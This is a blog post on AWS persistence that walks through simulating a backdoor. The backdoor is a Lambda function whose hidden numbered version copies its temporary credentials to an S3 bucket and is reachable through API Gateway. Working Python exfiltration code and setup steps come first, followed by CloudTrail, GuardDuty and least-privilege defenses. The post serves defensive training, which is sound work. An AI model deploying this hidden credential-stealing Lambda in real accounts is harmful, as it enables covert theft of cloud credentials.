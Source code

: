 ```yaml
---
title: Stealthy Persistence in AWS - A Practical Simulation for Defenders
date: 2025-06-27
authors:
  - sergiojimenez
tags:
  - backdoor
  - persistence
  - lambda 
---
```


-----

## Stealthy Persistence in AWS: A Practical Simulation for Defenders

In the world of cloud cybersecurity, attackers are always innovating. As defenders, it's crucial not only to understand attack techniques but also to **simulate them to strengthen our own defenses**. Recently, an analysis from Datadog and insights from a security analyst Eduard Agavriloae  shed light on a particularly cunning persistence technique in AWS: the use of **API Gateway and Lambda Functions for credential exfiltration**, with a "twist" that makes it even harder to detect.

This article breaks down how an attacker might implement this technique and, more importantly, **how we can simulate it in our own environment** to fine-tune our detection and prevention capabilities.

-----

### The Technique in Detail: API Gateway + Lambda for Credential Exfiltration

Datadog's original idea involved a compromised Lambda creating new IAM users for persistence. However, the "twist" that interests us is the **exfiltration of credentials from the Lambda's own execution environment (`/proc/self/environ`)**. This is stealthier because an attacker can use these exfiltrated credentials to operate from their own infrastructure, avoiding detections associated with creating new users (a highly monitored API call).

Persistence is achieved by linking this "malicious" Lambda to an **API Gateway**, creating a web entry point that the attacker can invoke at will. The subtlety is amplified by **Lambda versioning**: an attacker could deploy a "benign" version of the function as `$LATEST` (the one administrators typically check), while the "backdoored" version (with the exfiltration code) is explicitly invoked by its version number, thus remaining hidden from superficial inspections.

-----

### Setting Up the Attack Scenario: Step-by-Step Simulation

To understand and defend ourselves, we'll replicate this technique in a controlled AWS environment.

#### 1\. Preparing the AWS Ground

Before we start, security is key. Don't use your `root` account or an administrator user.

  * **Test IAM User:** Create an IAM user with the minimum necessary permissions to **create Lambda functions, API Gateways, and IAM roles**. This simulates an initial compromise with limited privileges.
  * **S3 Bucket for the "Catch":** You'll need an **S3 bucket** where the "malicious" Lambda will deposit the exfiltrated credentials. Ensure the bucket policy only allows writes from the IAM role your Lambda will assume.

#### 2\. The "Malicious" Lambda: Code and Role

This is the heart of our simulated attack. This function will read environment variables, which in Lambda include temporary credentials.

  * **Lambda Python Code:**

    ```python
    import os
    import json
    import boto3

    def lambda_handler(event, context):
        try:
            # Read environment variables, which in Lambda include temporary credentials
            environ_data = os.environ # os.environ is already a dict, no need to read from /proc/self/environ directly here for this purpose.

            # Extract specific credentials (if they exist)
            aws_access_key_id = environ_data.get('AWS_ACCESS_KEY_ID', 'N/A')
            aws_secret_access_key = environ_data.get('AWS_SECRET_ACCESS_KEY', 'N/A')
            aws_session_token = environ_data.get('AWS_SESSION_TOKEN', 'N/A')
            
            exfiltrated_data = {
                "lambda_name": context.function_name,
                "aws_access_key_id": aws_access_key_id,
                "aws_secret_access_key": aws_secret_access_key,
                "aws_session_token": aws_session_token,
                "full_environ": dict(environ_data) # Convert to dict for JSON serialization
            }

            # Send data to S3
            s3_bucket_name = "your-exfiltration-bucket" # IMPORTANT: Change this to your bucket name!
            s3_key = f"exfiltrated-creds/{context.aws_request_id}.json"
            s3_client = boto3.client('s3')
            s3_client.put_object(
                Bucket=s3_bucket_name,
                Key=s3_key,
                Body=json.dumps(exfiltrated_data, indent=4)
            )

            print(f"Credentials exfiltrated and saved to s3://{s3_bucket_name}/{s3_key}")
            
            return {
                'statusCode': 200,
                'body': json.dumps('Data exfiltrated successfully!')
            }
        except Exception as e:
            print(f"Error during exfiltration: {e}")
            return {
                'statusCode': 500,
                'body': json.dumps(f'Error during exfiltration: {str(e)}')
            }
    ```

  * **Lambda Execution Role (IAM Role):** This role must have permissions for:

      * `lambda:InvokeFunction`
      * `s3:PutObject` in *your* exfiltration bucket.
      * Basic **CloudWatch Logs** permissions (`logs:CreateLogGroup`, `logs:CreateLogStream`, `logs:PutLogEvents`).

#### 3\. The API Gateway Deception

The API Gateway is the public facade the attacker will use.

  * **Create HTTP API:** In the API Gateway console, create a simple **HTTP API**.
  * **Resource and Method:** Define a resource (e.g., `/backdoor`) and an HTTP method (e.g., `GET`).
  * **Lambda Integration:** Connect this method to your Lambda function. Ensure API Gateway has the permissions to invoke it.

#### 4\. The Key to Stealth: Lambda Versions

This is where the attacker's ingenuity comes in.

  * **"$LATEST" Version (Benign):** Upload a "clean" version of your Lambda that does something innocuous (e.g., "Hello World"). This will be the one pointed to by the `$LATEST` alias.
  * **"Backdoored" Version (Malicious):** Now, **update your Lambda's code with the credential exfiltration script**. Publish a **new version** of this function (e.g., `v2`). The key is that the attacker will explicitly invoke `arn:aws:lambda:region:account-id:function:MyFunction:v2`, while your security team might only be checking `$LATEST`.

#### 5\. Time to Invoke the Backdoor\!

  * **"Normal" Invocation:** Access the API Gateway URL without specifying a version. It should execute the `$LATEST` (benign) version.
  * **"Malicious" Invocation:** The attacker will invoke the function by specifying the backdoored version in the ARN. For example: `arn:aws:lambda:us-east-1:123456789012:function:MyFunction:v2`. After execution, you should find a JSON file with the exfiltrated credentials in your S3 bucket.

-----

### Defense and Detection: Hardening Your Environment

Once you've simulated the attack, it's time to put on your "Blue Team" hat and strengthen your defenses.

#### Monitoring and Detection (Red Flags)

  * **AWS CloudTrail:** Your best friend.
      * **Resource Creation/Modification:** Look for events like `CreateFunction`, `UpdateFunctionCode`, `PublishVersion` (for Lambdas) or `CreateRestApi`, `CreateResource`, `PUT_INTEGRATION` (for API Gateway). **Abnormalities in these events are red flags.**
      * **Exfiltration:** Monitor `PutObject` in S3, especially if you don't expect a Lambda to write to a specific bucket.
      * **Use of Exfiltrated Credentials:** `AssumeRole` or `GetFederationToken` events from **unusual IPs** or with **suspicious credentials** (the exfiltrated ones) are critical.
  * **CloudWatch Lambda Logs:** Set up alerts for execution errors or unusual patterns in your function logs. If the malicious Lambda tries to write to S3 unsuccessfully (thanks to strict policies\!), your logs will tell you.
  * **Amazon GuardDuty:** Enable it. It detects malicious activity, including unusual credential usage, communications with suspicious IPs, and exfiltration attempts.
  * **Lambda Version Monitoring:** **Crucial for this attack.** Don't just limit yourself to `$LATEST`. Use CloudWatch Lambda metrics to see **invocations by version**. If an old or "inactive" version suddenly shows invocation activity, investigate\!
  * **AWS Security Hub:** Centralizes security findings from all your services, giving you a holistic view.

#### Prevention (Blue Fortress)

  * **Principle of Least Privilege:** The golden rule. Grant your Lambdas only the absolutely necessary permissions. If a Lambda doesn't need to write to S3, don't give it `s3:PutObject` permissions\!
  * **Code Review and Secure CI/CD:** Implement security scanning (SAST) in your CI/CD pipelines to detect malicious code or vulnerabilities before deployment. Conduct regular code reviews.
  * **Credential Management:** Rotate credentials frequently and **never hardcode credentials in your code**. Leverage IAM roles and temporary credentials that Lambda already provides.
  * **API Gateway Configuration:**
      * Restric access with **Authorizers** (Lambda Authorizers, Cognito, IAM).
      * Use **AWS WAF** to protect your API Gateway from common attacks.
  * **Network Security (VPC):** If feasible, place your Lambdas inside a VPC to control network traffic more granularly with Security Groups and NACLs.
  * **AWS Organizations SCPs:** If you use AWS Organizations, Service Control Policies (SCPs) can prevent dangerous actions at the account level, acting as an additional barrier.
  * **Offensive Mindset:** Finally, and perhaps most importantly, cultivate an **offensive mindset** within your team. Understanding how attackers think and operate will enable you to build more robust and proactive defenses.

-----

Simulating these sophisticated persistence techniques isn't just a technical exercise; it's an invaluable investment in your ability to protect your AWS environments. By understanding the "how" of the attack, you'll be much better equipped to build the "how" of your defense.


-----
Sources:
- https://www.linkedin.com/in/eduard-k-agavriloae/
- https://securitylabs.datadoghq.com/articles/tales-from-the-cloud-trenches-the-attacker-doth-persist-too-much/
